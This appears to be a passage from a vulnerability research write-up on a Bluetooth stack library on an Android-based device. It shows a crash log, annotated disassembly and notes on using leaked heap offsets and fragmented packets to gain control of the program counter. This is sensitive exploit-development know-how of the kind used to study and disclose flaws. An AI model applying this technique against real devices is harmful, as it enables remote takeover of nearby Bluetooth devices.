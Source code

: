 07-20 09:28:01.123 21061 21061 F DEBUG   :     r0 00000008  r1 dead0033  r2 8970a200  r3 00000000
07-20 09:28:01.123 21061 21061 F DEBUG   :     r4 a4585c38  r5 8970a200  r6 00000000  r7 00000000
07-20 09:28:01.123 21061 21061 F DEBUG   :     r8 00000000  r9 891fd340  sl 891fd338  fp 00000001
07-20 09:28:01.124 21061 21061 F DEBUG   :     ip a66aa0ec  sp 891fcfd8  lr 8a4f78e9  pc dead0032  cpsr 200f0030
07-20 09:28:01.228 21061 21061 F DEBUG   : 
07-20 09:28:01.228 21061 21061 F DEBUG   : backtrace:
07-20 09:28:01.228 21061 21061 F DEBUG   :     #00 pc dead0032  <unknown>
07-20 09:28:01.229 21061 21061 F DEBUG   :     #01 pc 001298e7  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z11list_appendP6list_tPv+70)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #02 pc 0010312d  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z24l2c_link_check_send_pktsP12t_l2c_linkcbP9t_l2c_ccbP6BT_HDR+36)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #03 pc 0010298f  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z22l2c_link_hci_conn_comphtPh+78)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #04 pc 000e5371  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z22btu_hcif_process_eventhP6BT_HDR+440)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #05 pc 000e6607  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z17btu_hci_msg_readyP13fixed_queue_tPv+42)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #06 pc 001290df  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL22internal_dequeue_readyPv+46)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #07 pc 0012b535  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL11run_reactorP9reactor_ti+216)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #08 pc 0012b431  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z13reactor_startP9reactor_t+44)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #09 pc 0012c729  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL10run_threadPv+136)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #10 pc 00047f17  /system/lib/libc.so (_ZL15__pthread_startPv+22)
07-20 09:28:01.229 21061 21061 F DEBUG   :     #11 pc 0001b1dd  /system/lib/libc.so (__start_thread+32)

The same disassembly at 001298e7 give:

.text:0x1298E0 loc_1298E0                              ; CODE XREF: list_append:loc_1298CA↑j
.text:0x1298E0                 LDR             R0, [R4,#0x10]                                       => Load R0 from R4+0x10
.text:0x1298E2                 LDR             R1, [R0]                                             => Load R1 from R0                     => Crash if not controlled
.text:0x1298E4                 MOVS            R0, #8                                               => Set 8 in R0
.text:0x1298E6                 BLX             R1                                                   => Branch with link and exchange to R1 => Branch to controlled R1 !!!
.text:0x1298E8                 MOV             R1, R0

The deamon now crashed on BLX R1 with R1 register = dead0033
This is the pattern sent in fragmented packets when getting leaks at mem_offset 184
This will be the second payload with a known address at an offset of - 0xb0 from first memory address found at mem_offset 180

We can now control PC of bluetooth.marvellberlin.so library have a second place in memory with the data and we know the address of this one

After the signal the registers contains:
- R0 = 0x8
- R1 = second payload value + 0xb0
- R4 = first payload address - 0x4
